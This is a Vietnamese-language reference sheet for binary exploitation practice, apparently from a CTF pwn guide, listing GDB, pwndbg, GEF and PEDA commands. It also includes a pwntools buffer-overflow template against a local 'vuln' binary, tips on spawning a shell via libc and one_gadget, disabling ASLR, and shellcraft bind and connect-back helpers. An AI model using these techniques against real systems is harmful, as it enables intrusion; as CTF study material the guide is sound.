# Xem registers
(gdb) info registers            # tất cả registers
(gdb) info registers rip rsp rbp rax   # registers cụ thể
(gdb) p $rip                    # print register
(gdb) p $rax
(gdb) p/x $rax                  # in hex

# Examine memory: x/[count][format][size] addr
# format: x=hex, d=decimal, u=unsigned, s=string, i=instruction, c=char
# size:   b=byte(1), h=halfword(2), w=word(4), g=giant(8)
(gdb) x/8gx $rsp                # 8 giá trị 8-byte hex tại RSP (stack)
(gdb) x/20wx 0x404000           # 20 words hex
(gdb) x/s 0x404010              # string tại địa chỉ
(gdb) x/10i $rip                # 10 instructions từ RIP
(gdb) x/i $rip                  # instruction hiện tại

# Disassemble
(gdb) disassemble main          # disassemble hàm main
(gdb) disassemble 0x401234      # disassemble tại địa chỉ
(gdb) set disassembly-flavor intel   # dùng Intel syntax (khuyên dùng)

# Print expressions
(gdb) p system                  # địa chỉ của system()
(gdb) p &variable               # địa chỉ biến
(gdb) p (int*)0x404010          # cast và in
(gdb) p/x 0x100 + 0x20
```

### Modify memory & registers

```bash
(gdb) set $rax = 0xdeadbeef             # set giá trị register
(gdb) set $rip = 0x401234               # redirect execution
(gdb) set {int}0x404010 = 0xdeadbeef    # ghi 4 bytes vào địa chỉ
(gdb) set {long long}$rsp = 0x414141    # ghi 8 bytes
```

### Backtrace & Stack

```bash
(gdb) backtrace       # bt     — call stack
(gdb) backtrace full           # call stack + local variables
(gdb) info frame               # info về stack frame hiện tại
(gdb) info locals              # local variables
(gdb) info args                # function arguments
(gdb) frame 2                  # chuyển sang frame #2
```

### Tìm kiếm trong memory

```bash
(gdb) find 0x7fff0000, 0x7fffffff, "AAAA"     # tìm string
(gdb) find 0x7fff0000, +0x1000, 0xdeadbeef    # tìm 4-byte value
```

### Misc

```bash
(gdb) shell ls -la              # chạy shell command
(gdb) shell clear               # clear terminal
(gdb) define hook-stop          # chạy commands mỗi khi stop
> x/8gx $rsp
> end
(gdb) source script.gdb         # load GDB script
```

---

## 2.3 pwndbg — Lệnh đặc biệt

pwndbg thêm context panel tự động (registers, stack, disasm, backtrace) mỗi khi dừng.

### Navigation & Info

```bash
context                 # in lại context panel
context reg             # chỉ registers
context stack           # chỉ stack
context disasm          # chỉ disassembly

regs                    # tất cả registers
stack                   # xem stack (mặc định 8 entries)
stack 20                # xem 20 stack entries
telescope $rsp 20       # dereference chain stack — rất hữu ích
telescope 0x404000 10

nearpc                  # instructions xung quanh RIP
nearpc 20               # 20 instructions
retaddr                 # tìm return address trên stack
```

### Memory & Maps

```bash
vmmap                   # xem memory mappings (permissions, ranges)
vmmap libc              # filter theo tên
heap                    # heap overview
bins                    # fastbins, smallbins, unsortedbin
chunks                  # liệt kê heap chunks
vis_heap_chunks         # visualize heap chunks
arena                   # malloc arena info

search -s "AAAA"        # tìm string trong tất cả segments
search -x "\xde\xad\xbe\xef"   # tìm bytes
search -t qword 0x401234       # tìm 8-byte value
```

### Checksec & Binary Info

```bash
checksec                # bảo vệ của binary đang debug
elfheader               # ELF header
got                     # Global Offset Table
plt                     # Procedure Linkage Table
symbols                 # symbols table
```

### ROP & Gadgets

```bash
rop                     # tìm ROP gadgets trong binary
rop --grep "pop rdi"    # filter gadget
ropper                  # dùng ropper (nếu cài)

cyclic 100              # tạo cyclic pattern
cyclic -l 0x61616164   # tìm offset
```

### Exploit helpers

```bash
canary                  # giá trị stack canary hiện tại
aslr                    # trạng thái ASLR
procinfo                # thông tin process (PID, exe, mappings)

# Lệnh GDB bình thường vẫn hoạt động đầy đủ
```

---

## 2.4 GEF — Lệnh đặc biệt

```bash
gef config              # xem/đặt cấu hình GEF
gef help                # help

# Memory
vmmap                   # memory maps
heap                    # heap info
heap chunks             # liệt kê chunks
heap bins               # bin info
memory watch 0x404010 10 qword   # monitor vùng nhớ

# Search
search-pattern "AAAA"   # tìm pattern
search-pattern "\x41\x41"

# ASLR
aslr                    # toggle ASLR
set-permission 0x404000  # set permissions cho page (cần root)

# Thông tin
checksec                # bảo vệ binary
entry-break             # break tại entry point
got                     # GOT table
```

---

## 2.5 PEDA — Lệnh đặc biệt

```bash
# PEDA nổi bật về cyclic pattern và ASLR brute
pattern create 200              # tạo pattern
pattern offset 0x41414641       # tìm offset

aslr on/off                     # toggle ASLR
checksec                        # bảo vệ

searchmem "AAAA"                # tìm trong memory
find /bin/sh                    # tìm string /bin/sh trong memory

dumprop                         # dump tất cả ROP gadgets
asmsearch "pop rdi"             # tìm assembly pattern

# Gợi ý exploit
suggest                         # gợi ý cách khai thác dựa trên crash
```

---

## 2.6 GDB Script — Tự động hóa

Tạo file `.gdbinit` hoặc `script.gdb` để tự động chạy lệnh:

```bash
# exploit.gdb
set disassembly-flavor intel
set pagination off

b *main+100
commands 1
    silent
    x/8gx $rsp
    continue
end

run <<< $(python3 -c "print('A'*40)")
```

```bash
gdb -x exploit.gdb ./vuln
# hoặc trong pwntools:
gdb.debug('./vuln', gdbscript=open('exploit.gdb').read())
```

---

## 2.7 Workflow tích hợp pwntools + GDB



```python
from pwn import *

exe = ELF("./vuln")
context.binary = exe
context.terminal = ['tmux', 'splitw', '-h']  # hoặc ['xterm', '-e']

p = process(exe.path)

# Bước 1: tìm offset bằng cyclic
if args.OFFSET:
    gdb.attach(p)
    p.sendline(cyclic(200))
    p.wait()   # chờ crash
    # Đọc crash offset từ GDB: cyclic_find(...)
    pause()

# Bước 2: exploit thật
offset = 40
payload = b"A" * offset + p64(exe.sym['win'])
p.sendlineafter(b"> ", payload)

if args.GDB:
    gdb.attach(p, gdbscript=f"""
        b *{hex(exe.sym['win'])}
        continue
    """)
    pause()

p.interactive()
```

---

## 2.8 Một số tip nhanh

??? tip "Stack alignment x86_64"
    Trước khi gọi hàm libc (như `system`), RSP phải align 16 bytes. Nếu bị crash tại `movaps`, thêm một `ret` gadget trước:
    ```python
    ret = rop.find_gadget(['ret'])[0]
    rop.raw(ret)
    rop.system(bin_sh)
    ```

??? tip "Tìm `/bin/sh` trong libc"
    ```python
    bin_sh = next(libc.search(b'/bin/sh\0'))
    # Hoặc
    bin_sh = next(libc.search(b'/bin/sh'))
    ```

??? tip "one_gadget — one-shot shell"
    ```bash
    # Tool ngoài, tìm gadget execve trong libc chỉ cần 1 địa chỉ
    one_gadget ./libc.so.6
    # Output: danh sách offset + constraints (rax==NULL, etc.)
    ```
    ```python
    one_gadget_offset = 0xe3afe   # từ output one_gadget
    shell = libc.address + one_gadget_offset
    rop.raw(shell)
    ```

??? tip "Debug từ xa qua SSH tunnel"
    ```python
    s = ssh(host='ctf.server.com', user='ctf', password='ctf')
    p = s.process('/home/ctf/vuln')
    gdb.attach(p)   # mở GDB trên remote qua SSH
    ```

??? tip "Disable ASLR cho phiên debug"
    ```bash
    echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
    # Hoặc trong pwntools:
    p = gdb.debug('./vuln', aslr=False)
    ```

??? tip "patchelf — đổi libc/ld cho binary CTF"
    ```bash
    # Rất hay gặp: binary CTF dùng libc cụ thể, cần patch để chạy local
    patchelf --set-interpreter ./ld-2.31.so ./vuln
    patchelf --set-rpath ./                  ./vuln
    # Sau đó trong pwntools dùng libc đúng version
    libc = ELF('./libc-2.31.so')
    ```

---

## Tóm tắt nhanh — Quick Reference

### pwntools keywords

| Category | Keywords |
|---|---|
| Import | `from pwn import *` |
| Context | `context.binary`, `context.arch`, `context.bits`, `context.log_level`, `context.terminal` |
| Tube tạo | `process()`, `remote()`, `ssh()`, `gdb.debug()`, `gdb.attach()` |
| Tube recv | `recv()`, `recvn()`, `recvline()`, `recvlines()`, `recvuntil()`, `recvall()`, `clean()`, `stream()` |
| Tube send | `send()`, `sendline()`, `sendafter()`, `sendlineafter()` |
| Tube misc | `interactive()`, `p.elf`, `pause()` |
| ELF | `ELF()`, `.sym[]`, `.plt[]`, `.got[]`, `.address`, `.search()`, `.read()`, `.write()`, `.libc` |
| Pack | `p8/p16/p32/p64()`, `u8/u16/u32/u64()`, `pack()`, `unpack()`, `flat()` |
| Encode | `enhex()`, `unhex()`, `b64e()`, `b64d()`, `xor()`, `hexdump()` |
| Asm | `asm()`, `disasm()` |
| Shellcraft | `shellcraft.sh()`, `shellcraft.cat()`, `shellcraft.bindsh()`, `shellcraft.connect()` + `dupsh()` |
| Cyclic | `cyclic()`, `cyclic_find()` |
| ROP | `ROP()`, `.find_gadget()`, `.raw()`, `.call()`, `.chain()`, `.dump()`, `.rdi`, `.rsi`, ... |
| SROP | `SigreturnFrame()`, `constants.SYS_*` |
| FmtStr | `FmtStr()`, `fmtstr_payload()`, `fmtstr_split()` |
| Logging | `log.info()`, `log.success()`, `log.warning()`, `log.debug()` |
| CLI | `pwn checksec`, `pwn cyclic`, `pwn asm`, `pwn disasm`, `pwn shellcraft`, `pwn template` |

### GDB / pwndbg keywords

| Category | Lệnh |
|---|---|
| Run | `run`, `starti`, `start`, `continue`, `quit` |
| Break | `break *addr`, `delete`, `disable`, `enable`, `watch` |
| Step | `ni`, `si`, `next`, `step`, `finish`, `until`, `jump` |
| Memory | `x/Nfz addr`, `set {type}addr = val` |
| Registers | `info registers`, `p $reg`, `set $reg = val` |
| Stack | `backtrace`, `info frame`, `info locals` |
| pwndbg extra | `telescope`, `vmmap`, `heap`, `bins`, `got`, `plt`, `checksec`, `search`, `cyclic`, `canary`, `rop` |
| GEF extra | `vmmap`, `heap chunks`, `heap bins`, `search-pattern`, `aslr`, `got` |
| PEDA extra | `pattern create/offset`, `searchmem`, `dumprop`, `suggest` |
